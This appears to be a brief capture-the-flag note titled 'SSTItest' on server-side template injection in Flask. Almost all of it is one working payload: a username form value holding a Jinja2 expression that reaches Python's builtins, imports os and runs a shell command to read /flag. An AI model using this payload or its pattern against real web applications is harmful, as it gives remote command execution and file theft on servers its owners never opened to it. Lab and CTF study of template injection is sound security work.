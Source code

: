 ## SSTItest

flask ssti

```
password=s&username={{g.pop.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}
```
